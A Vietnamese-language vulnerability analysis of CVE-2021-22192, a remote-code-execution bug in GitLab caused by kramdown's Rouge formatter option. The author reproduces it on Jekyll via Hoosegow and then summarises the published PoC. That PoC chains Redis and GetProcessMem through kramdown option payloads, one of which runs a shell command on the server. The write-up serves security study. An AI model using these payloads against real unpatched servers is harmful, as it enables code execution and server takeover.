



# Phân tích lỗ hổng CVE-2021-22192 trên Gitlab

## I) Building
- Lỗi này xảy ra trên GitLab Community Edition (CE) và Enterprise Edition (EE) ở các phiên bản (>=13.2, <13.7.9), (>=13.8, <13.8.6) và (>=13.9, <13.9.4)
- các bạn có thể làm theo hướng dẫn của [lyy289065406](https://github.com/lyy289065406/CVE-2021-22192) để dựng môi trường.

## II) Phân tích

  Khi bắt đầu bắt tay vào phân tích lỗi này. Mình chỉ có được 1 số thông tin quý giá của [lyy289065406](https://github.com/lyy289065406/CVE-2021-22192) giúp mình có thể hiểu được vấn đế cốt lõi trong bug này.
  Ta thấy dường như đang là lỗi ở phía gem kramdown (<= 2.3.0), vậy nên mình bắt đầu tìm hiểu tới kramdown trước.
  
### 1. Kramdown

Ta có thể tiến hành kiểm tra bản [patch](https://github.com/gettalong/kramdown/commit/d6a1cbcb2caa2f8a70927f176070d126b2422760#diff-752a8043ae0220ab8bb4d8a91b3a623ad6775dd2ca958041cda185bc9f58d44a) của kramdown, và ta thấy sự khác biệt ở hàm `formatter_class` tại module `Kramdown::Converter::SyntaxHighlighter::Rouge`



`::Rouge::Formatters.const_get(formatter)` đã chuyển thành `::Rouge::Formatters.const_get(formatter, false)`

Hàm const_get() được kế thừa từ class Object, nó có thể lấy được các const. Nó thậm chí có thể trả về các class đã được khai báo trước đó mà nó có thể tìm thấy. Sự khác biệt ở đây chỉ là thêm 1 tham số `false`. Việc thêm tham số `false` vào sẽ kiến const_get không thể get được các const ở lớp cha hoặc các modules.
Điều đặc biệt hơn nữa: tại hàm `self.call` có gọi tới hàm `formatter_class` rồi tiếp tục gọi `new(opts)`. Điều đó có nghĩa là method được get về thông qua `const_get` sẽ được gọi Constructor để khởi tạo. 

```ruby
def self.call(converter, text, lang, type, call_opts)
      opts = options(converter, type)
      call_opts[:default_lang] = opts[:default_lang]
      return nil unless lang || opts[:default_lang] || opts[:guess_lang]

      lexer = ::Rouge::Lexer.find_fancy(lang || opts[:default_lang], text)
      return nil if opts[:disable] || !lexer || (lexer.tag == "plaintext" && !opts[:guess_lang])

      opts[:css_class] ||= 'highlight' # For backward compatibility when using Rouge 2.0
      formatter = formatter_class(opts).new(opts)
      formatter.format(lexer.lex(text))
    end
```

#### Wao, Wao. Như vậy làm sao để có thể Exploit???

Dựa vào [Kramdown:Options](https://kramdown.gettalong.org/options.html) ta có thể gọi tới hàm `Kramdown::Converter::SyntaxHighlighter::Rouge.call` 

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: CSV, line_numbers: true\}" /}

```

Ngoài ra ta còn thấy tại module `Kramdown:Options` hàm `simple_hash_validator` đã gọi `YAML.safe_load(val)`. Như vậy ta cũng có thể cấu hình file YML để đưa payload mong muốn tới `Kramdown::Converter::SyntaxHighlighter::Rouge`

```ruby
def self.simple_hash_validator(val, name)
      if String === val
        begin
          val = YAML.safe_load(val)
        rescue RuntimeError, ArgumentError, SyntaxError
          raise Kramdown::Error, "Invalid YAML value for option #{name}"
        end
      end
      raise Kramdown::Error, "Invalid type #{val.class} for option #{name}" unless Hash === val
      val
    end
```

- Kramdown được sử dụng bởi Jekyll, GitLab Pages, GitHub Pages, và Thredd Forum. vì vậy mình quyết định thử nó với jekyll trước.

### 2. jekyll
 Đầu tiên thì mình cần dựng jekyll lên trước:
 - Cài đặt jekyll
```
gem install jekyll
```
- Tạo jekyll pages với tên jekyllTest
```
jekyll new jekyllTest
```
- Chỉnh sửa file `Gemfile.lock` đưa phiên bản kramdown về <= `2.3.0`
```
cd jekyllTest
```
File `Gemfile.lock`
```

...
kramdown (2.3.0)
...

```
- install page
```
install
```
Như vậy là chúng ta đã hoàn thành tạo một jekyll page. bây giờ chúng ta có thể đưa payload vào, để xem `Kramdown::Converter::SyntaxHighlighter::Rouge.call` có thực sự gọi được một method hay không.

ta có thể thêm vào file `./_config.yml`
```YML
kramdown:
  syntax_highlighter: rouge
  syntax_highlighter_opts:
    formatter: CSV
```
Hoặc sử dụng kramdown Document bằng cách thêm payload vào `./_posts/*.markdown`

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: CSV, line_numbers: true\}" /}

~~~ ruby
def what?
  42
end
~~~

```
 Ở đây mình xài cách thứ 2 =)))))
 
 - ta tiến hành deploy jekyll page
 ```
 bundle exec jekyll serve
 ```
  có thể bạn sẽ gặp lỗi "`require': cannot load such file -- webrick (LoadError)`" bạn cần thêm `gem "webrick"` vào Genfile
 
 - Ta thấy thông báo lỗi `private method 'format' called for #<CSV io_type:Hash encoding:UTF-8 lineno:0 col_sep:` Điều này chứng tỏ rằng class CSV đã được gọi tới.

#### Việc tiếp theo là xác định mình sẽ chọn method nào để khi gọi contructor thì method đó có thể gây ra RCE?

Theo một bài viết phân tích [CVE-2020-10518](https://blog.csdn.net/smellycat000/article/details/109302520) sử dụng bug ở kramdown để gây ra RCE trên Github. Mình taget tới class Hoosegow:
- Ta thấy tại hàm `initialize` của Hoosegow có gọi tới `load_inmate_methods`
```ruby
def initialize(options = {})
    options         = options.dup
    @no_proxy       = options.delete(:no_proxy)
    @inmate_dir     = options.delete(:inmate_dir) || '/hoosegow/inmate'
    @image_name     = options.delete(:image_name)
    @ruby_version   = options.delete(:ruby_version) || RUBY_VERSION
    @docker_options = options
    load_inmate_methods
```
- Tại `load_inmate_methods` ta thấy nó có gọi ` require inmate_file`

```ruby
 def load_inmate_methods
    inmate_file = File.join @inmate_dir, 'inmate.rb'

    unless File.exist?(inmate_file)
      raise Hoosegow::InmateImportError, "inmate file doesn't exist"
    end

    require inmate_file

    unless Hoosegow.const_defined?(:Inmate) && Hoosegow::Inmate.is_a?(Module)
      raise Hoosegow::InmateImportError,
        "inmate file doesn't define Hoosegow::Inmate"
    end

    if no_proxy?
      self.extend Hoosegow::Inmate
    else
      inmate_methods = Hoosegow::Inmate.instance_methods
      inmate_methods.each do |name|
        define_singleton_method name do |*args, &block|
          proxy_send name, args, &block
        end
      end
    end
  end
```
- Mà `inmate_file` được tạo ra bằng cách cộng chỗi `@inmate_dir` với `'inmate.rb'`. Nếu ta có thể gọi tới class này và sửa tham số `inmate_dir` thành đường dẫn tới file payload của mình, thì chẳng phải là xảy ra RCE ở đây rồi sao?

- Mình chạy một đoạn script trong path của jekyll page để kiểm tra các method đã được định nghĩa:

```ruby
require "bundler"
Bundler.require

methods = []
ObjectSpace.each_object(Class) {|ob| methods << ( {ob: ob }) if ob.name =~ /\A[[:upper:]][[:alnum:]_]*\z/ }
 
methods.each do |m|
  begin
    puts "trying #{m[:ob]}"
    m[:ob].new({a:1, b:2})
    puts "worked\n\n"
  rescue ArgumentError
      puts "nope\n\n"
  rescue NoMethodError
      puts "nope\n\n"
  rescue => e
      p e
      puts "maybe\n\n"
  end
```

- Rất tiếc, không có class nào tên là Hoosegow, ngay cả khi mình tránh script crack giữa chừng bằng cách để điều kiện là ` ob.name == "Hoosegow"`

```ruby
require "bundler"
Bundler.require
  
methods = []
ObjectSpace.each_object(Class) {|ob| methods << ( {ob: ob }) if ob.name == "Hoosegow"  }

...
```

- Thì ra trong class path của mình chưa khai báo class Hoosegow, mình thêm `gem "hoosegow"` vào `Gemfile` và script đã tìm thấy class này. [Hệ Hệ Hệ]
- Tiếp theo thử gọi `Hoosegow` bằng kramdown xem sao

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Hoosegow, line_numbers: true\}" /}

~~~ ruby
def what?
  42
end
~~~
```
- Bùmm. Không có chuyện gì xảy ra cả, Class Hoosegow vẫn không được gọi.  =)))))))))

- Mình stuck ở đây.. 1 tuần. Yeb, bay màu mất một tuần vì nó. Mình xoay vòng với câu hỏi: "Tại sao trong bundler đã có class Hoosegow, nhưng khi gọi lên từ dưới Kramdown lại không được? lẽ ra nó phải được chứ ???"
- Đáp án không có gì phức tạp. Mình khai báo trong Gemfile như thế chưa đủ, phải khai báo gem trong group `jekyll_plugins` thì mới chịu :(

```
group :jekyll_plugins do
  gem "jekyll-feed", "~> 0.12"
  gem "hoosegow"
end
```
- Mình tạo một file `inmate.rb` ở `C:/` rồi chạy payload:

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Hoosegow, inmate_dir: C:/\}" /}

~~~ ruby
def what?
  42
end
~~~
```


- File `inmate.rb` đã được gọi. Như vậy chúng ta đã có vẻ gần như thành công PoC lại rồi nhỉ.

### 3. Gitlab

- Tại Gitlab, mình đã deploy jekyll page ở trên lên server gitlab của mình. Câu hỏi đặt ra là làm sao để đưa file `inmate.rb` lên server của Gitlab và biết được file inmate.rb mình vừa up lên nằm ở đâu ??
- Điều này khá đơn giản nếu chúng ta có quyền tạo project và deploy chúng lên gitlab. Ta có thể upload file inmate.rb lên chính project của mình rồi chỉnh sửa file [.gitlab-ci.yml](https://gitlab.com/pages/jekyll/-/blob/master/.gitlab-ci.yml)
```yml
before_script:
  - pwd
  - gem install bundler
  - bundle install

```
- Điều này cho phép ta biết được project của chúng ta được lưu trữ tại đâu. Từ đó tạo được payload của mình :)

#### Tại sao chúng ta có quyền sửa file .gitlab-ci.yml, với khả năng inject command rồi, thì còn phải mất công viết PoC làm gì nữa ?

- Câu hỏi này ngay lập tức nhảy lên khi mình sửa file `.gitlab-ci.yml`. Mình đã cố gắng giải thích theo nhiều cách khác nhau: "Có thể có một cơ chế scan file .yml trươc khi nó được nạp vào?",.. nhưng chúng không làm mình thấy thỏa mãn...



- Mình tìm hiểu cách Gitlab deploy Gitlab Pages. Thì nhận thấy mỗi khi deploy mỗi page mới, hoặc có sự chỉnh sửa 1 file nào đó trong project pages thì Gitlab Runner server sẽ render project thành các trang web tĩnh, rồi đẩy chúng qua Gitlab Web server. Điều đó có nghĩa là hướng khai thác này tối đa chỉ có thể chiếm được Runner Server. Chiếm được Runner Server cũng là bug nghiêm trọng. Nhưng mình vẫn cảm thấy chưa đủ, có gì đó có vẻ như không ổn lắm. 

- Mặc dầu chưa thấy thỏa mãn, mình bắt buộc phải dừng lại và chờ cho PoC được công bố để dành thời gian cho những nghiên cứu khác.

### PoC Được công bố

 Vào một ngày đẹp trời thì [PoC](https://hackerone.com/reports/1125425) đã được công bố. Đọc xong thì cảm giác con gà trong mình trỗi dậy mạnh mẽ khỏi phải bàn =)).
 
 Vấn đề cốt lõi nằm trong kramdown thì chúng ta đã đi đúng, nhưng con đường đi tới nó ở Gitlab có vẻ hơi phèn =)
 
 - Tác giả đã phát hiện khi upload wiki page với file '\*.rmd' thì chương trình sẽ gọi `render_wiki_content` -> [`other_markup_unsafe`](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.9.3-ee/app/helpers/markup_helper.rb#L145) -> `GitHub::Markup.render`. Như vậy file '\*.rmd' sẽ được render với kramdown. Mình đã thử test với wiki, nhưng wiki sử dụng file '.md' chúng bị giới hạn tính năng nên mình đã miss case này :(
 - Tác giả đã up file '.rmd' của mình bằng cách clone wiki page về local, rồi sau đó sử dụng git để push wiki page lên gitlab.
 - Tác giả đã sử dụng class [`Redis`](https://github.com/redis/redis-rb) (đã được khai báo sẵn ở prject Gitlab, thể nên ta có thể gọi và sử dụng class này) để chạy payload của mình.
 
 Khi khởi tạo class `Redis`, nếu có tồn tại option `driver` thì chương trình sẽ gọi tới hàm `_parse_driver`. Tại đây, chương trình `require "connection/#{driver}"` ta có tác động vào biến `driver` để chương trình gọi tới file payload mà mình tải lên server.
```ruby
def _parse_driver(driver)
      driver = driver.to_s if driver.is_a?(Symbol)

      if driver.kind_of?(String)
        begin
          require_relative "connection/#{driver}"
        rescue LoadError, NameError => e
          begin
            require "connection/#{driver}"
          rescue LoadError, NameError => e
            raise RuntimeError, "Cannot load driver #{driver.inspect}: #{e.message}"
          end
        end

        driver = Connection.const_get(driver.capitalize)
      end

      driver
    end
```
- Với tính năng  tạo mới `snippet`. Attacker có thể upload ruby payload với `Attach a file`.
-  Trong exploit này, attacker cần tìm được vị trí của file paylaod đã được tải lên. Điều này khiến tác giả tìm ra một hướng exploit khác:


Sử dụng hướng từ Kramdown gọi tới class Redis, đầu tiên tác giả import gem `get_process_mem` với payload
```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../get_process_mem\}" /}

~~~ruby
    def what?
      42
    end
~~~
```

Sau đó lại sử dụng gem `get_process_mem` đã import phía trước để RCE

```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{a: '`echo inject > /tmp/inject`', formatter: GetProcessMem\}" /}

~~ ruby
    def what?
      42
    end
~~
```

Như vậy, Không cần tìm địa chỉ của file payload attacker vẫn có thể RCE trên Gitlab Server


Ref: 
  - https://github.com/lyy289065406/CVE-2021-22192
  - https://blog.csdn.net/smellycat000/article/details/109302520
  - https://hackerone.com/reports/1125425
  
